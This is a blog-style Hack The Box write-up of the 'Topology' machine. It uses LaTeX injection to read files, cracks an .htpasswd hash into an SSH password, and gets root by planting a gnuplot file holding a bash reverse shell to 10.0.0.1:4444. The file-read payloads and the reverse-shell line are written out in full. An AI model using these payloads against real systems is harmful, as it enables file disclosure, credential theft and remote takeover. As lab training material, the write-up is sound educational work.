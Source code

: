 ```yaml
---
layout: post
title: Topology - Hackthebox
date: 2023-10-05 16:30 +0100
categories:
- Writeups
- Hackthebox
tags:
- Linux
- htaccess
- htpassword
- Latex Injection
- pspy
- Subdomains Enumeration
- Gnuplot
- John
img_path: "/assets/img/topology"
image:
  path: machine_img.png
  alt: topology
---
```


Topology is a hackthebox machine that has a website showing information about a topology group. The group have a project which is a latex equation generation. The subdomain that is running the project accepts latex equations as inputs and generates a png image of that equation. However the project is vulnerable to latex injection and we can read files. One of those files, .htpassword, contains credentials that give access to a ssh session in the machine. To elevate privileges we used a binary called pspy64 to look at processes without root privileges. We are able to look at a command executed by root that can be used to gain root privileges and this way we get root access.


## Recon

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The website seems to belong to a topology group and it is used to display information about the group.
It has three main users as staff:
- Lilian Klein
- Vajramani Daisley
- Derek Abrahams

It has an email: `lklein@topology.htb` and a link for a subdomain: `http://latex.topology.htb/equation.php`
First lets add the domain `topology.htb` and `latex.topology.htb` to the hosts file(`/etc/hosts`).

`http://latex.topology.htb/equation.php` seems like a attack surface because they expect a user input and with that they generate an image. Maybe some command is execute with some binary that converts the latex into an image. But before we start digging into more, lets look for more subdomains and directories in the main domain.

Lets run a directory discover scan with gobuster: `gobuster dir -u http://topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
```

And vhosts scan too: `gobuster vhost -u http://topology.htb -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

```
Found: dev.topology.htb (Status: 401) [Size: 463]
Found: stats.topology.htb (Status: 200) [Size: 108]
```

Since we didn't find nothing in the main domain(topology.htb) and before going into the latex subdomain, we add the two subdomains we found to the hosts file(/etc/hosts) and start exploring each one.

### dev subdomain

`http://dev.topology.htb/` is asking for credentials in order to enter in the webpage. We tried some default credentials but we were not successful.
Lets scan the directories in this subdomain: `gobuster dir -u http://dev.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt -b 404,401`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```
###  stats subdomain

`http://stats.topology.htb/` its a strange page that shows the server load, but its static.
Lets scan the directories in this subdomain: `gobuster dir -u http://stats.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```

![](stats_subdomain.png)

## Foothold

Since we didn't find anything in `http://stats.topology.htb/`, `http://dev.topology.htb/` and `http://topology.htb/`, lets look at the `equation.php` in `latex.topology.htb`.
When generating an image from a latex equation we get `Pdf Version: PDF-1.5` if we look at the file details with `exiftool`.
Another thing is that, if we try to read a file with the following latex:
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file\read\file to\fileline % Reads a line of the file into \fileline\repeat\closein\file`
We get `Illegal command detected. Sorry`. It seems like the vulnerability here is latex injection and the server has some filters that we need to bypass.


![](error.png)



This command let us read one line in /etc/passwd: `\newread\file\openin\file=equation.php\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\closein\file`
In this command `\loop` is not accepted: 
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file%0A%20%20%20%20\read\file%20to\fileline%0A%20%20%20%20\text{\fileline}\repeat\closein\file`
In this command `\usepackage` is not accepted: `\usepackage{verbatim}\verbatiminput{/etc/passwd}`
In this command `\input` is not accepted: `\input{/etc/passwd}\include{somefile}`
After trying some inputs, I finally got it by using`$\lstinputlisting{/etc/passwd}$`. The `\lstinputlisting` command in LaTeX is used to include the contents of an external source code file into your document and format it appropriately for code listings. This command is part of the listings package, which is commonly used for displaying code in LaTeX documents. The use of the character `$` is to format the text differently from all the text. Since `lstinputlisting` will format the text, using inside the document without the dollar sign will cause the error message `input too long. sorry`.


Links:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
- https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection
- https://salmonsec.com/cheatsheets/exploitation/latex_injection5


Having the possibility to read files in the filesystem lets try to gather information:

- Looking at `/etc/passwd` we have two users: `root` and `vdaisley`.
- Since it is Apache we can know the location of the website in the filesystem by looking at `$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}$`. We have, /var/www/html, /var/www/latex, /var/www/dev and /var/www/stats.
- The most interesting domain is the dev, looking at the `/var/www/dev/.htaccess` we know that the credentials are in `/var/www/dev/.htpasswd`.
- We ge the following credentials: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. The password seems like an hash.

Using the credentials with john the ripper we get the hash format: `md5crypt-long`
Lets run john  with the credentials against rockyou.txt wordlist: `john --format=md5crypt-long --show --wordlist=~/rockyou.txt crack.txt`
To see the password: `john --show crack.txt `, we get: `vdaisley:calculus20`.

Using the credentials in `http://dev.topology.htb` we get a webpage but its just javascript and css, a dead end.

![](dev.png)

Trying the same credentials in ssh we get a shell as the user `vdaisley`: `ssh vdaisley@10.10.11.217`


## Privilege Escalation

Inside the vdaisley home directory we have a binary called [`pspy64`](https://github.com/DominicBreuker/pspy). This is a binary that can watch for processes without needing root privileges. Basically what it does is using the API of [inotify](https://man7.org/linux/man-pages/man7/inotify.7.html) to see watch for changes in directories such as  /opt, /usr and etc. When a new notification of a modification in the filesystem triggers, pspy scans `/proc` to catch the process.

Running this binary and after waiting a few seconds a process with the command `find /opt/gnuplot -name *.plt -exec gnuplot {} ;` triggers in pspy.
Basically what is doing is finding all the files in the directory `/opt/gnuplot` with the extension of `.plt` and execute them in the command `gnuplot file.plt`. However, `gnuplot` can execute system commands as explained [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/). Since we have write privileges in the directory `/opt/gnuplot`: `drwx-wx-wx  2 root root 4096 Oct  5 07:25 gnuplot`, we create a test.plt with a bash reverse shell `system "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"`, copy to the directory and start a netcat listener. After a couple of minutes we get a shell as root since the process was runned by root. 